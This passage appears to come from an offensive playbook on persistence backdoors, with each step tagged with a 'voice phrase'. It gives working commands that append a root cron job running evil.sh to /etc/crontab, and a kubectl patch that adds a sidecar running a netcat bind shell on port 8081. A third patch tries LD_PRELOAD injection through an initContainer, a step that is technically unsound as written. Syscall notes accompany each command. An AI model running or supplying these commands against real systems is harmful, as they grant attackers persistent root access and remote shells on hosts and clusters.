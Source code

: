 #### 9.1.2 Cron Job Alternative

```bash
# Voice Phrase: “Add cron backdoor”
bash -c "echo '*/15 * * * * root /usr/local/bin/evil.sh' >> /etc/crontab"
```

* **Syscalls & Filesystem**

  * `open("/etc/crontab", O_APPEND|O_WRONLY)` + `write()`
  * Cron daemon sees updated `/etc/crontab` on next minute → executes `/usr/local/bin/evil.sh`

---

### 9.2 Linkerd Sidecar Backdoor Persistence

#### 9.2.1 Injecting a Malicious Sidecar

```yaml
# Voice Phrase: “Backdoor support handler”
# Patch Deployment to include an evil sidecar
spec:
  template:
    spec:
      containers:
      - name: evil-proxy
        image: alpine:latest
        command: ["/bin/sh","-c","while true; do nc -l -p 8081 -e /bin/sh; sleep 10; done"]
```

```bash
bash -c "kubectl patch deploy support-handler -n voice-uplink \
  --type='json' -p '[{\"op\":\"add\",\"path\":\"/spec/template/spec/containers/-\",\"value\":{…}}]'"
```

* **Primitives & Network**

  * `execve("kubectl",…)` → HTTPS PATCH to API server → etcd update
  * Sidecar runs `nc -l -p 8081` → `socket()`, `bind()`, `listen()`, `accept()`
  * Attacker connects to `<pod-ip>:8081` for shell

#### 9.2.2 Malicious InitContainer for Env-Var Injection

```bash
# Voice Phrase: “Poison mesh traffic”
bash -c "kubectl patch deploy whisper-transcriber -n voice-uplink \
  --type='json' -p '[{\"op\":\"add\",\"path\":\"/spec/template/spec/initContainers/-\",\"value\":{\
\"name\":\"poison\",\"image\":\"alpine\",\"command\":[\"sh\",\"-c\",\"export LD_PRELOAD=/tmp/evil.so\"]}}]'"
```

* **Syscalls**

  * `execve` for `kubectl` → patch; container startup loads `evil.so` via `dlopen()`

---
